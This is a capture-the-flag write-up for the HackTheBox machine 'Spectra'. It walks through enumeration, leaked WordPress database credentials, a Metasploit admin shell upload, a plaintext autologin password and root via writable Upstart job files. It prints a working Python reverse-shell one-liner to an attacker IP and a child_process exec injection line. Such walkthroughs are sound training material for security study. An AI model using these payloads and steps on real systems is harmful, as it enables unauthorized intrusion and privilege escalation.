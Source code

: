 ```yaml
---
title: "HackTheBox - Spectra"
author: Nasrallah
description: ""
date: 2023-05-13 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, chromeos, easy, sudo, wordpress, commandinjection, metasploit]
img_path: /assets/img/hackthebox/machines/spectra
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Spectra](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

![](0.png)

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.229
Host is up (0.29s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|_  4096 5247de5c374f290e8e1d886ef9234d5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.17.4
3306/tcp open  mysql   MySQL (unauthorized)
```

We found 3 open ports, 22 is SSH as usual, port 80 running nginx web server and 3306 is mysql but we can't authenticate.

### Web

Let's navigate to the web page.

![](1.png)

We found two links that both goes to the domain `spectra.htb`, let's add it to `/etc/hosts` and got to the first link

![](2.png)

This one is a wordpress website, let's check the other link.

![](3.png)

We got an error and it also looks like wordpress.

After trying to run a directory scan for `/testing` it showed me that it has directory listing.

![](4.png)

Here we can see different wordpress default files.

One file that looks interesting is `wp-config.php.save`, and the `wp-config.php` file in wordpress always hold credentials of the database.

Since the file has `.save` extension at end means that we can read it.

![](5.png)

After checking the source code of the file we find the database credentials.

## **Foothold**

We can't login to the `mysql` server we found earlier so let's try logging in as Administrator with the DB password at `http://spectra.htb/main/wp-login.php`

![](6.png)

We've logged in successfully but the page looks weird.

I used the module `exploit/unix/webapp/wp_admin_shell_upload` from `metasploit` to get a shell.

![](7.png)

## **Privilege Escalation**

### katie

Checking different directories in the system we came across a config file in `/opt`

![](8.png)

The file description is "Automatic login at boot" and it's checking two directories`/mnt/stateful_partition/etc/autologin` and 1/etc/autologin` for the file `passwd` which contains a password, the passwords then is injected into the login prompt.

Let's check the passwd file

```terminal
cat /etc/autologin/passwd
SummerHereWeCome!!
```

We got the password, let's see what users are on this machine

```terminal
cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
chronos:x:1000:1000:system_user:/home/chronos/user:/bin/bash
nginx:x:20155:20156::/home/nginx:/bin/bash
katie:x:20156:20157::/home/katie:/bin/bash
```

Let's see if we can ssh to any of those users.

![](9.png)

We logged as `katie`.

### root

Let's check `katie`'s permission.

![](10.png)

We can run `initctl` as root and katie is part of the `developers` group.

According to linux man page, `initctl` allows a system administrator to communicate and interact with the Upstart init daemon and use it to monitor and call jobs that are located in `/etc/init`.

Now let's search for files that belongs to `developers` group.

```terminal
katie@spectra ~ $ find / -group developers 2>/dev/null -ls                                                                                                   
    32121      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test6.conf
    32123      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test7.conf
    32109      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test3.conf
    32112      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test4.conf
    32103      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test.conf
    32126      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test8.conf
    32128      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test9.conf
    32106      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test10.conf
    32108      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test2.conf
    32120      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test5.conf
    32105      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test1.conf
    23762      4 drwxr-xr-x   2 root     developers     4096 Jun 29  2020 /srv
    23763      4 -rwxrwxr-x   1 root     developers      251 Jun 29  2020 /srv/nodetest.js
```

We have have read/write rights over test files in `/etc/init` directory and `/srv`. Let's see what'on the test files.

```shell
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script

    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js

end script

pre-start script
    echo "[`date`] Node Test Starting" >> /var/log/nodetest.log
end script

pre-stop script
    rm /var/run/nodetest.pid
    echo "[`date`] Node Test Stopping" >> /var/log/nodetest.log
end script
```

They all contains the same script blocks which have what looks like shell commands.

The first blocks executes a node.js script located at `/srv/nodetest.log`

```js
var http = require("http");

http.createServer(function (request, response) {
   response.writeHead(200, {'Content-Type': 'text/plain'});
   
   response.end('Hello World\n');
}).listen(8081);
```

The script starts a simple webserver.

We have write permission over the config files and over the node.js script, so we can edit either of them to get a shell. I choose to edit the node.js script by adding the following line to it.

```js
require('child_process').exec('/home/katie/shell.sh')
```

The code above simply executes a shell script that contains the following python reverse shell.

```bash
export RHOST="10.10.17.90";export RPORT=9002;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

After that we can start any of the `test` jobs with the following command:

```bash
sudo /sbin/initctl start test
```

![](11.png)

We got a root shell.


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
